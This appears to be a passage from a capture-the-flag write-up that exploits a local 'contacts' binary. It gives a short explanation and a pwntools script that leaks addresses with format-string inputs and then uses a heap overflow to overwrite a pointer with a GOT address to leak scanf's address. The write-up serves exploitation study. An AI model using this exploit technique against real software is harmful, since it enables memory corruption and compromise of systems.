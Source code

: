 Once we execute the payload, we will be able to Display the contacts and leak an address. However the address wil be among a bunch of other data, which will need to be sorted out. I found the address by splitting it into 8 byte segments, then unpacking it with pwntools and looking for an address I could use. It doesn't matter what address we get, as long as it is to a function. I ended up leaking the scanf address. Here is the code to do so.

```
#Import pwntools
from pwn import *

#Establish the process
target = process("./contacts_54f3188f64e548565bc1b87d7aa07427")

#Create the first contact
target.recvuntil(">>>")
target.sendline("1")
target.sendline("guy0")
target.sendline("0123456789")
target.sendline("50")
target.sendline("%1$x")
print target.recvuntil(">>>")

#Create the second contact 
target.sendline("1")
target.sendline("guy1")
target.sendline("4685790123")
target.sendline("50")
target.sendline("%1$x")
print target.recvuntil(">>>")

#Print the description, and grab the leaked addresses
target.sendline("4")
print target.recvuntil("Phone #: 0123456789\n")
leak0 = target.recvline()
print target.recvuntil("Phone #: 4685790123\n")
leak1 = target.recvline()
print target.recvuntil(">>>")

#Filter out the leaked addresses
leak0 = leak0.replace("Description: ", "")[1:]
leak1 = leak1.replace("Description: ", "")[1:]
leak0 = leak0.replace(" ", "")
leak1 = leak1.replace(" ", "")
leak0 = "0x" + leak0
leak1 = "0x" + leak1
leak0 = int(leak0, 16)
leak1 = int(leak1, 16)

#Edit the guy0 contact, and execute the heap overflow into guy1
target.sendline("3")
target.sendline("guy0")
target.sendline("1")
print target.recvuntil(">>>")
payload = "0"*64 + p32(0x5) + p32(0x1) + p32(leak1) + p32(0x804b014) + p32(0x31797567) + "\x00"
target.sendline(payload)
print target.recvuntil(">>>")

#Display the contacts to get the leak
target.sendline("4")
print target.recvuntil("Length 50\n")
leak2 = target.recvline()
print target.recvuntil(">>>")

#Filter out the address from the leak
```